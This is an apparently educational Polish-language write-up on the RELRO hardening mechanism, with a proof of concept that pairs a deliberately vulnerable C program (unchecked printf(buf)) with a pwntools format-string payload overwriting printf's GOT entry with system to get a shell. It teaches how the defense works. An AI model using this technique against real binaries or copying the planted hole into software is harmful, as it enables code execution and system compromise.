 # RERLO

### 1. Opis

RELRO to technika polegająca na oznaczaniu sekcji związanych z GOT i PLT jako sekcji tylko do odczytu, co nie pozwala nadpisać tych sekcji.

Tablica GOT jest zapełniana podczas przebiegu programu. Kiedy po raz pierwszy funkcja z biblioteki współdzielonej zostanie wywołana GOT zawiera pointer powrotny do PLT, gdzie dynamiczny linker zostaje wywołany. Linker po odnalezieniu funkcji zapisuje ją w GOT. To jest `lazy binding` - raz znaleziona funkcja jest trzymana w pamięci w tablicy GOT, co pozwala zaoszczędzić czas.

Istnieją dwa rodzaje RELRO:
* partial RELRO - jedynie sekcja `.got` jest `read only` - co pozwala na nadpisanie adresu w `.got.plt` i wykonanie złośliwego kodu - przykład niżej.
* full RELRO - cały GOT jest `read only`, co uniemożliwia ataki z nadpisaniem adresu w GOT.

Partial RELRO jest domyślnym zachowaniem `gcc` i nie wpływa na performance. Full RELRO jest jednak rozwiązaniem dość inwazyjnym. W przypadku ustawienia GOT jako `read only` w tablicy tej muszą już znajdować się wszystkie symbole, które są używane przez program. 

Znacząco wpływa to na czas startu aplikacji, bo linker musi na samym jej starcie uzupełnić cała tablice GOT.

W gcc kompiluje się z full RERLO flaga `-z,relro,now`.

### 2. Proof of Concept - got overwrite with format string


Kompilacja:
- **PIE & ASLR**: wyłączone dla stałości adresów.
- **RERLO**: wyłączone - idea exploitu.

Kod podatnej aplikacji:

```c
// gcc vuln.c -std=c99 -m32-no-pie -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>f 
#include <unistd.h>


int main()
{
    char buf[100];
    printf("Hello \n");
    scanf("%s",buf);
    while(strcmp(buf,"exit")) {
        printf("\n");
        printf(buf);
        scanf("%s",buf);
    }

    return 0;

}
```

Strategią tego ataku jest podmiana adresu funkcji `printf` na adres funkcji `system` w tablicy GOT.

Aby tego dokonać użyję exploitu typu `format string`, który korzysta z tagów formatujących funkcji `printf`.
```c
 printf(buf);
```

Ta linijka jest naszym wejściem do programu.

W przypadku podania tagów `%x` pobierana jest wartość ze stosu.

![img.png](img/img.png)

Chcę ustalić jak daleko na stosie jest `buf` Metodą prób i błędów znajduję początek bufora. Aby pobrać inny argument niż najwyższy używam konstrukcji `%3$x`.

![img_1.png](img/img_1.png)

Bufor znajduję się na 7 pozycji.

Teraz potrzeba mi adresu wpisu GOT `printf` oraz adresu `system` w `libc`.

![img_2.png](img/img_2.png)

![img_3.png](img/img_3.png)

Teraz moim zadaniem jest skopiować adres system pod adres `0x0804c010`.

Dokonam tego tagiem `%n`. Zapisuje on ilość bajtów wyswietlonych pod adres wskazany przez pointer.

Zaczynam pisać exploit.

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("Hello")

gdb.attach(p)

#0804c010 -prinft@got

name = '%15$x%16$x'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'

p.sendline(name)

p.interactive()
```

Adres wysyłam na dwa razy - wypisanie adresu jako liczby w postaci spacji nie jest zbyt dobrym pomysłem - liczba jest ogromna.

Używam paddingu, aby pozycje na stosie były niezmienne. Według moich obliczeń adresy wpisane przez mnie znajdują się na 15 i 16 pozycji stosu.

![img_4.png](img/img_4.png)

Jest to prawda.

Pod adres `0x0804c010` chce zapisać `0f10` czyli `3856` bajty. Osiągam to whitespace'ami generowanym przez tag x.

Pod adres `0x0804c012` chce zapisać wyższą część adresu systemu czyli `f7e1` co daje `63457` bajty, ale poprzednie bajty już są na ekranie, więc `63457 - 3856 = 59601` bajtów.

Sklejam gotowy exploit.


```python
name = '%3856p%15$n%59601p%16$n'.ljust(32,'A')
name += '\x10\xc0\x04\x08'
name += '\x12\xc0\x04\x08'
```

Teraz powinniśmy otrzymać pseudo shella - wynika to z konstrukcji programu, ale po wpisaniu `sh` system spawnuje pełnoprawnego shella.

![img_5.png](img/img_5.png)

Udało się wykonać exploit.

Exploit włączony na kodzie z włączonym relro nie daje żadnego skutku - adres got znajduje się w innym miejscu. W przypadku próby nadpisania tego miejsca następuje `SIGSEGV` - wykonanie chciało nadpisać sekcje read-only. Kod tego exploitu znajduję się w `exploit1.py`.

![img_6.png](img/img_6.png)

### 3. Wnioski

RERLO jest dość prostym mechanizmem obrony przed exploitacją. Chroni przed pewnymi typami ataków i nie jest to opcja, której stosowanie ma sens w przypadku, np. wykonywalnego stosu i wyłączonego ASLR.

Full RERLO jest opcja dość kosztowną i nie powinno się używać jej do aplikacji, które wymagają szybkich czasów startu. Patrial RERLO może i powinno być stosowane defaultowo, bo jest bezproblemowe wydajnościowo, a podnosi bezpieczeństwo.



